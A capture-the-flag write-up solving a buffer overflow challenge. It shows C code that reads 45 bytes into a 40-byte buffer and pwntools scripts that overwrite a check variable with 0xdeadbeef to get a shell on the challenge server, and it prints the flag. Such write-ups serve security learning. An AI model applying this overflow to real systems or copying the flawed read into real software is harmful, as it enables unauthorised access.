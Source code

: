 # Buffer overflow 2

## Description

> Can you deadbeef the program??

## Write-Up

### Discovery

Let's check out the given code first :

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>


int main()
{
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  char buf[40];
  int check = 0x10101010;
  
  fgets(buf,45,stdin);
     
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
    
  if ((check != 0x10101010) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
    
  else if (check == 0xdeadbeef)
  {
    printf("Yeah dude! You win!\nOpening your shell...\n");
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
    printf("Shell closed! Bye.\n");
  }
  return 0;
}
```

As we can see, even if the author used the `fgets()` function to read input (More secure than `gets()` function), but he is actually ready `45` chars, which is larger then the `buf` buffer he is using (`40` bytes or chars long). So, if the user enters a large string as an input (between `41` and `45`), this may lead to a **Segmentation fault** due to a **Buffer Overflow** attack.

## Exploration

Let's try to mess arround with the code a little :

1. Before we start, let's create a string that is long enough to fill up the whole `buf` variable, we will be using `cyclic` that creates a stateful cyclic generator which can generate sequential chunks of de Bruijn sequences:

```
└─$ cyclic 40 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
```

2. Now, let's inject some payloads :
 - First, injecting our payload like it is will only fill perfectly the `buf` string without generating any error :

```
└─$ ./chall
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa

[check] 0x10101010
```

  - Also, Injecting only two addinional will not effect the program :

```
└─$ ./chall
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka   

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka

[check] 0x10101010
```

 - The program starts to get errors only from the 3rd added byte (Mote the changing value of the `check` value) :

```
─$ ./chall
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaa  

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaa

[check] 0x10101000

You are on the right way!
```

 - Of course, using more than 4 additional bytes (last one reserved to the closing char `\0`) will crash out the added bytes :

```
─$ ./chall
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa

[check] 0x10101000

You are on the right way!

─$ laa
```

 - Now, let's use some scripting to pass out the data (with pwn tools) :

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')

p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xdd\xdd\xdd\xdd')

p.interactive()
```

```
[+] Starting local process './chall': pid 9114
[*] Switching to interactive mode

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xdd\xdd\xdd\xdd
[check] 0xdddddddd

You are on the right way!
[*] Process './chall' stopped with exit code 0 (pid 9114)
[*] Got EOF while reading in interactive
```

 - Of course, in order to solve the challenge correct, let's remind ourselves that the stack stores the data :

<br>

> The stack stores data **from the top down**, following a last in, first out (LIFO) data structure. This means that the program adds data to the top of the stack and removes data from the top of the stack. In this way, the top of the stack always contains the most recently stored data that has not yet been removed.

<br>

```py
...
p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xda\xdb\xdd\xdd')
...
```


```
[+] Starting local process './chall': pid 9355
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 9355)

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xda\xdb\xdd\xdd
[check] 0xdddddbda

You are on the right way!
[*] Got EOF while reading in interactive
```

### Solution 

When we see the code closeling, we can find out that there is a specific data that must be written in the `check` variable in order for us to bypass the conditions and get the `shell` :

```c
...
  else if (check == 0xdeadbeef)
  {
    printf("Yeah dude! You win!\nOpening your shell...\n");
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
...
```

So, let's try to inject the value in our payload :

```py
...
p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xef\xbe\xad\xde')
...
```

Here is the result locally :


```
[+] Starting local process './chall': pid 9666
[*] Switching to interactive mode

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaﾭ\xde
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
$
$ echo "Hello"
Hello
$ whoami
rivench
$ exit
Shell closed! Bye.
```

Here is the remote script :

```py
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.challs.ctf.shellmates.club'
PORT = '1402'

p = remote(HOST, PORT)

p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\xef\xbe\xad\xde')

p.interactive()
```

```
[+] Opening connection to pwn.challs.ctf.shellmates.club on port 1402: Done
[*] Switching to interactive mode

[buf]: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaﾭ\xde
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
$ ls
chall
entrypoint.sh
flag.txt
$ whoami
nobody
$ cat flag.txt
shellmates{D34D_B333333333F_IN70_t|-|E_$ERV3R}
$ exit
Shell closed! Bye.
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

## Flag

shellmates{D34D_B333333333F_IN70_t|-|E_$ERV3R}
